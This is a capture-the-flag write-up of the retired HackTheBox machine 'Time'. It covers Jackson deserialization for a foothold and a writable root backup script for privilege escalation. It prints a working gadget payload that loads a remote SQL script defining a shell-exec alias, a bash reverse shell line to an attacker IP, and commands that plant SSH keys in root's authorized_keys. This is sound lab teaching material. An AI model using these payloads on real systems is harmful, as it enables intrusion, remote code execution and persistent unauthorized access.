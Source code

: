 Title:HTB: Time
Date: 04-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, jackson, deserialization
meta:security, boot2root, HTB, linux, jackson, deserialization

<img class="align-left" src="/media/2021.04/time_card.png" alt="Time Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Time](https://www.hackthebox.com/home/machines/profile/286) publish on
October 24, 2020 by
[egotisticalSW](https://www.hackthebox.com/home/users/profile/94858) and
[felamos ](https://www.hackthebox.com/home/users/profile/27390).
This box is rated as a medium box. It implies a hard foothold using Jackson and
some Google fu. The root part is quit fast as there is a writable bash script
running regularly as root.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Wed Nov  11 12:02:12 2020 as: nmap -sS -p- -oN nmap 10.129.29.179
    Nmap scan report for 10.129.29.179
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Wed Nov  11 12:02:28 2020 -- 1 IP address (1 host up) scanned in 15.91 seconds

## Web

The website is an online tool to beautify and validate json data.

![/media/2020.xx/time_01.png]

When we try to validate "garbage" input. We got an error message "Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'qe': was expecting ('true', 'false' or 'null')"

We see that the website is using the Jackson library.

As we want a RCE we start a few Google search with "jackson fasterxml rce".
The results are from 2017:

* https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062


We continue our searches and finally get to "jackson gadget". Which lead us to a
more recent [article about Jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).


We send the following request (we just URL encoded the data parameter)

    :::text
    POST / HTTP/1.1
    Host: 10.129.29.179
    User-Agent: Mozilla/4.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 174
    Origin: http://10.129.29.179
    Connection: close
    Referer: http://10.129.29.179/
    Upgrade-Insecure-Requests: 1

    mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT+FROM+'http://10.10.14.25:8000/inject.sql'"}]

    Our inject.sql file looks like the following:

    :::text
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('<payload>')


We start with a first simple payload `wget http://10.10.14.25:8000/rce`
as we see the query in our python server log we know that we have RCE

We change the payload to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
`bash -i >& /dev/tcp/10.10.14.25/4242 0>&1`

This allows us to get a shell and grab the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p4242
    bash: cannot set terminal process group (958): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ cat /home/pericles/user.txt
    cat /home/pericles/user.txt
    74555f76d2e8013945afd9233ca2f219

# Root

We start by checking our privileges. We are not part of any specific group. As we don't know our password we cannot use sudo.

    :::text
    pericles@time:/var/www/html$ id
    id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

As we want to transfer file and have a better shell, we "upload" our SSH key:

    :::text
    mkdir /home/pericles/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFvS<SNIP>' > /home/pericles/.ssh/authorized_keys

We upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) using scp and run it.
We discover that we have access to the /usr/bin/timer_backup.sh file (read and write)

    :::text
    [+] .sh files in path
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    You own the script: /usr/bin/timer_backup.sh
    /usr/bin/rescan-scsi-bus.sh

We take a look at the file. It seems that root is regulary making a backup of the website.


    :::text
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip


We modify the file using Vim and add the following lines

    :::text
    mkdir /root/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFv<SNIP>' > /root/.ssh/authorized_keys

Waiting a few seconds and connecting back to the box with the root user allow us to get a shell and grab the flag.


    :::text
    kali@kali:~$ ssh root@10.129.29.179
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    <SNIP>

    Last login: Fri Oct 23 10:05:26 2020
    root@time:~# cat root.txt
    50fb5aa6e01ec64a77c48d42cf533088

# Wrapping up

The root part was easy, the jackson exploitation was harder and mostly some Google fu.
Nonetheless an interesting box to play with Java Deserialization vulnerabilities.

